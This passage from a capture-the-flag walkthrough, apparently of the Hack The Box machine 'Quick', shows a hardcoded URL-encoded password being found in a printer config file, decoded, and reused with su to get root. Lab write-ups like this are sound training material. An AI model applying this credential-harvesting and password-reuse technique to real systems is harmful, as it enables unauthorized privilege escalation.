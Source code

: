 ## Finding another hardcoded password
By taking a look around we can find some hardcoded credentials in `~/.cache/conf.d/printers.conf`:
```
https://srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb/printer
```

Some characters are URL encoded, we can use [CyberChef](https://gchq.github.io/CyberChef/) to decode them:
```
https://srvadm@quick.htb:&ftQ4K3SGde8?@printerv3.quick.htb/printer
```

We have the password `&ftQ4K3SGde8?`. Let's try to use it as root's password:
```
srvadm@quick:~/.cache/conf.d$ su
Password:
root@quick:~# wc -c /root/root.txt
33 /root/root.txt
```

And that's it, thanks for reading!
